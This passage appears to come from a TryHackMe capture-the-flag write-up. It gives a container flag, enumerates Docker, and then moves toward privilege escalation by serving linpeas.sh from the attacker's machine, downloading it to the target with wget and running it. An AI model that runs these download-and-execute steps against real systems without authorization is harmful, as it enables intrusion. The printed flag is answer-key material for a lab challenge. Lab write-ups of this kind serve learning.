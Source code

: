 Container Flag : ``` CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}```

Now, it’s time to break out of the Docker environment.

# Exploit Docker 

Since we know that we are in the docker container, quickly check the available containers on this machine by ``` docker images ```
![Desktop View](/assets/nyfl/docker.png){: width="900" height="500" }

We can see there are four containers available on this machine. Lets check the current docker process by ``` docker ps```
![Desktop View](/assets/nyfl/dockerps.png){: width="900" height="500" }

# Privilege Escalation 

We are going to use  Linpeas script to identify the flow of this machine for to elevate our privialge. usually Linpeas can be found ``` /usr/share/peas/linpeas/linpeas.sh```. If you can't find it, you can install it by ``` sudo apt-get install peass ```

Lets transfer Linpeas.sh to the target machine.

```shell
cp /us/share/peass/linpeas/linpeas.sh . 
python3 -m http.server 2000
```
Now that we have started out python server lets download and execute the file from the target machine.

```shell
wget http://<IP>:2000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```